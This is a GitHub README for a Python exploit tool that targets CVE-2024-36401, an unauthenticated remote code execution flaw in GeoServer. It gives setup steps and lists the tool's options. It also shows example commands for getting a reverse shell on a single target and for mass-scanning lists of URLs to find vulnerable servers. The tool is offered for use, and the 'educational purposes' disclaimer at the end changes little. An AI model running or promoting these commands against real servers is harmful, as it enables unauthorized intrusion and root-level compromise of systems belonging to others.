


# 🚀 GeoServer Exploit for CVE-2024-36401 🚀

## 📝 Description

**GeoServer** is an open-source Java-based software server that enables users to view, edit, and share geospatial data. It offers a versatile and efficient solution for distributing geospatial information from various sources such as GIS databases, web-based data, and personal datasets.

In versions of GeoServer earlier than **2.23.2**, **2.23.6**, versions **2.24.0** to **2.24.3**, and version **2.25.0**, there exists a vulnerability (**CVE-2024-36401**) that permits Remote Code Execution (RCE) by unauthenticated users. This issue arises from the unsafe evaluation of property names as XPath expressions in multiple OGC request parameters.

Exploiting this vulnerability, an attacker can send a POST request containing a malicious XPath expression, which can result in arbitrary command execution as root on the system running GeoServer.

## 🛠️ Setup

### Requirements

Install the required libraries using pip:

```sh
pip install -r requirements.txt
```

### Repository Setup

1. Clone the repository:

   ```sh
   git clone https://github.com/Chocapikk/CVE-2024-36401.git
   cd CVE-2024-36401
   ```

## 🚀 Usage

### Command-Line Options

Below is an explanation of the command-line options you can use with the exploit script:

```plaintext
Usage: exploit.py [OPTIONS]

Options:
  --url, -u          TEXT     Target URL for the exploit
  --remote-ip, -ip   TEXT     Your IP for the reverse shell
  --remote-port, -rp INTEGER  Port for the reverse shell
  --bind-host, -bh   TEXT     Local bind host for the listener
  --bind-port, -bp   INTEGER  Local bind port for the listener
  --proxy, -p        TEXT     Proxy URL, e.g., http://localhost:8080
  --check, -c        TEXT     File containing URLs to scan
  --output, -o       TEXT     Output file for vulnerable URLs
  --threads, -t      INTEGER  Number of threads for scanning (default: 10)
  --help                      Show this message and exit.
```

### Single Target Exploit

To exploit a single target, use the following command with the required parameters:

```sh
python exploit.py -u <target_url> -ip <your_ip> -rp <your_port> [--proxy <proxy_url>] [--bind-host <bind_host>] [--bind-port <bind_port>]
```

#### Example:

```sh
python exploit.py -u http://localhost:8080 -ip 192.168.1.36 -rp 1337 --proxy http://127.0.0.1:8081
```

### Mass Scanning

The exploit script also supports mass scanning of URLs for vulnerable GeoServer versions. You can specify a file containing a list of URLs and an optional output file to save the results.

#### Usage:

```sh
python exploit.py --check <file_with_urls> [--threads <number_of_threads>] [--output <output_file>]
```

#### Example:

```sh
python exploit.py --check urls.txt --threads 10 --output vulnerable_urls.txt
```

This will scan the URLs listed in `urls.txt` using 10 threads and save any vulnerable URLs found to `vulnerable_urls.txt`.

## 📜 Example Output

Here is an example of the output you might see when running the exploit:





## 🙏 Credits

This exploit code was created by:
- [Chocapikk](https://github.com/Chocapikk)
- [K3ysTr0K3R](https://github.com/K3ysTr0K3R)

## ⚠️ Disclaimer

This exploit is for educational purposes only. Use it at your own risk. The author is not responsible for any damage caused by this code.